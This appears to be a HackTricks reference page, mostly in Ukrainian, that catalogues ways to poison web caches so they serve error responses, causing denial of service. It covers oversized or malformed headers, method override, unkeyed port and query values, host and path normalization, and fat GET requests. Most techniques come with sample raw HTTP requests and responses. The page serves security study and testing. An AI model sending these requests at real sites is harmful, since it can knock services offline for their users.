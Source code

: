 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
На цій сторінці ви можете знайти різні варіації, щоб спробувати змусити **веб-сервер відповідати з помилками** на запити, які є **допустимими для кеш-серверів**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Надішліть запит з розміром заголовка, більшим за той, що підтримується веб-сервером, але меншим за той, що підтримується кеш-сервером. Веб-сервер відповість з кодом 400, який може бути кешований:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Character (HMC) & Unexpected values**

Відправте заголовок, що містить деякі **шкідливі мета-символи**, такі як `\n` та `\r`. Щоб атака спрацювала, спочатку потрібно обійти кеш.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
Погано налаштований заголовок може бути просто `\:` як заголовок.

Це також може спрацювати, якщо будуть надіслані несподівані значення, такі як несподіваний Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Unkeyed header**

Деякі веб-сайти повернуть код статусу помилки, якщо вони **бачать деякі специфічні заголовки** в запиті, як-от заголовок _X-Amz-Website-Location-Redirect: someThing_:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Method Override Attack (HMO)**

Якщо сервер підтримує зміну HTTP методу за допомогою заголовків, таких як `X-HTTP-Method-Override`, `X-HTTP-Method` або `X-Method-Override`, можливо запитати дійсну сторінку, змінивши метод, так що сервер не підтримує його, внаслідок чого погана відповідь кешується:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Unkeyed Port**

Якщо порт у заголовку Host відображається у відповіді і не включений у ключ кешу, можливо перенаправити його на невикористовуваний порт:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

Як у наступному прикладі, x не кешується, тому зловмисник може зловживати поведінкою відповіді перенаправлення, щоб зробити так, щоб перенаправлення відправляло URL, який настільки великий, що повертає помилку. Тоді люди, які намагаються отримати доступ до URL без некешованого ключа x, отримають відповідь з помилкою:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Нормалізація регістру заголовка хоста**

Заголовок хоста повинен бути нечутливим до регістру, але деякі веб-сайти очікують, що він буде в нижньому регістрі, повертаючи помилку, якщо це не так:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Нормалізація шляху**

Деякі сторінки повертають коди помилок, відправляючи дані URLencode у шляху, однак, кеш-сервер URLdecode шлях і зберігає відповідь для URLdecoded шляху:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Деякі кеш-сервери, такі як Cloudflare, або веб-сервери, зупиняють GET-запити з тілом, тому це може бути використано для кешування недійсної відповіді:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## Посилання

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
